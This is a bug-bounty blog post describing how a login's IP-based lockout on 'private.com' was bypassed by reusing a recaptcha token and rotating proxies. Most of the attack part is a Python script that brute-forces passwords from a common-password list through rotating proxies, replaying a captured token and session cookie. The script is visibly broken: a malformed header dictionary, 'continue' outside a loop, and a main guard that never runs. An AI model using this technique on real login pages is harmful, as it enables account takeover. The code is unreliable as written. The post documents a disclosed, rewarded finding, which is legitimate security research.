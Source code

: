 ```yaml
---
date: 2020-07-26 22:55:45
layout: post
title: Ip Rotation Bypass
description: Ip rotation to bypass ip based check
image: https://i.ibb.co/xXt8WMK/rotate.jpg
optimized_image: https://i.ibb.co/xXt8WMK/rotate.jpg
category: BugBounty
tags:
  - bughunting
  - bugbounty
  - webapp
author: shivangx01b
---
```


## Bypassing Ip based protection for login using simple python script

Hey guys I'm back with my another finding and also another one which does not implement google recaptcha properly and made this attack possible ...will see how.
We will say this traget as "private.com" through out the article. So let's jump into it !

![Alt Text](https://media.giphy.com/media/CjmvTCZf2U3p09Cn0h/giphy.gif)

Like always whenever I hunt on any program I start with the main web app and check out their stuffs there...well why not ?
So I jumped to login created an accout and started to  check if web app implements rate limit or not ...
Well web app say's that it implements google recaptcha so I thought ..well I try to remove header from the request and removed that recaptcha part from json request..like

- Original json request:
```
{"email": "anyuser@gmail.com", "password": "letbreakit12?", "recaptchaToken": "03AGdBq27wZv0tXXXXXXXXXXXXXX", "recaptchaVersion": "v3"}
```

- To:
```
{"email": "anyuser@gmail.com", "password": "letbreakit12?",  "recaptchaVersion": "v3"}
```

But no luck 

- Response:
```
{"error":"recaptchaToken not found"}
```
Next thing I checked if web app reuses this recaptcha?
And well yes ...now response was like 

- Response:
```
{"error":"Incorrect email/Password"}
```
![Alt Text](https://media.giphy.com/media/dLolp8dtrYCJi/giphy.gif)

Now the next thing remains is to check if we can bruteforce this ...Well after 3 ~ 4 tried including the above requests so total like ~ 7 requests I got response like 

```
{"error":"Something went wrong, Ip 47.1.X.x" is added to blacklist try again later"}
```
From this point I thought well it blocked my Ip what about other ?
So I tried to login with my phone data with random password and correct email and got response as

```
{"error":"Incorrect email/Password"}
```
So now I know what to do ;)

![Alt Text](https://media.giphy.com/media/BlWF2vzpIPB0A/giphy.gif)

- Now I had two options either use:
  - IpRotate which is cool extension which uses aws api gatways to proxy your traffic with unique ips 
  - Create a script (as most time internal teams would not like to install a extension for a specific bug)

So I made the following simple python3 script which proxies your every login attempt through different ips and got the pass after like 5 mins

```python

from proxy_requests.proxy_requests import ProxyRequests
import Queue
import sys

q = Queue.Queue()

passwordList = open('1k_most_common.txt','r').read().splitlines()
total = len(passwordList)


def attack(url):
   try :
       Pass = q.get()
       r = ProxyRequests(url)
       r.set_headers({"Connection": "close", 
                      "Accept": "application/json, text/plain, */*", 
                      "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/84.0.4147.105 Safari/537.36", 
                      "Content-Type": "application/json;charset=UTF-8", 
                      "Origin": "https://private.com", 
                      "Sec-Fetch-Site": "same-site", 
                      "Sec-Fetch-Mode": "cors", 
                      "Sec-Fetch-Dest": "empty", 
                      "Referer": "https://private.com/login", 
                      " Accept-Encoding": "gzip, deflate", 
                      "Accept-Language": "en-US,en;q=0.9",
                      "Cookie " : "__cfduid": "dc7914404b4b8af17d2b615325ec94cbf1596976181", "connect.sid": "s%3Aqcg54CJ2isBko1u1YNhaPG0bhX9R9Wmi.8XeOBqwBtDjReQFjOwpK8s6AnRPVO4BJfghJClZEcio"}

       r.post_with_headers({"email": "anyuser@gmail.com", "password": "" + str(Pass) + "", "recaptchaToken": "03AGdBq27wZv0tXXXXXXXXXXXXXX", "recaptchaVersion": "v3"})

       if r.get_status_code() == 401 or r.get_status_code() == 429:
                     continue
       if r.get_status_code() == 302:
                     print ("[!] Password Found !: " + str(Pass))
    except Queue.Empty :
	sys.exit()
   
def push_pass():

   for password in passwordList :
        q.put(password.strip())

def main():
   push_pass()
   url = "https://api.private.com/api/v2/login"
   for i in range(total):
       attack(url)
        

if '__name__' == '__main__': 
    main()
```
I didn't made it fast which I could or you could make a simple bash script with calls curl and a proxy list via which curl proxies your traffic...well I just had to show that even after like 12 - 20 requests web app is still allowing me for another login attempt


- Reported the bug 
Accepted and bounty awarded $_$

- Takeaway
  - Trying new thing helps

Hope you guys learned something new from this post :)
See you next time !

![Alt Text](https://media.giphy.com/media/KEkCtOMhkdze5azTMa/giphy.gif)
